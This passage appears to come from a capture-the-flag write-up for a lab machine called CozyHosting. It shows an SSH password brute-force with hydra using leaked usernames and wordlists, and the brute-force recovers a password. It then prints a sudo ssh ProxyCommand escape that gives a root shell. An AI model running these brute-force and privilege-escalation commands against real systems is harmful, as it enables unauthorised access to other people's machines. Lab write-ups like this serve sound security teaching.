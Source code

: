 lets run hydra on the on ssh and see if we can get logged in:

```BASH
$ cat loot/leaked_passwd | grep sh$ | awk -F ':' '{print $1}' | tee loot/leakedUsers
root
app
postgres
josh
$ echo "kanderson" >> loot/leakedUsers
$ echo "admin" >> loot/leakedUsers
$ cat loot/leakedUsers /opt/SecLists/Usernames/top-usernames-shortlist.txt > /tmp/users
$ cat loot/leakedPass /opt/SecLists/Passwords/darkweb2017-top10000.txt > /tmp/passlist
$ hydra -L /tmp/users -P /tmp/passlist $TARGET ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:6/p:1), ~1 try per task
[DATA] attacking ssh://10.10.11.230:22/
[22][ssh] host: 10.10.11.230   login: josh   password: manchesterunited
1 of 1 target successfully completed, 1 valid password found
```

We got a login! Lets again run linpeas in the background while we look around manually (linpeas doesn't find anything interesting, steps are the same as previously):

```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

user josh can run ssh as root, GTFO bins says the breakout into a shell is as easy as running:

```bash
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
$ id
uid=0(root) gid=0(root) groups=0(root)
```

and we get a root shell!
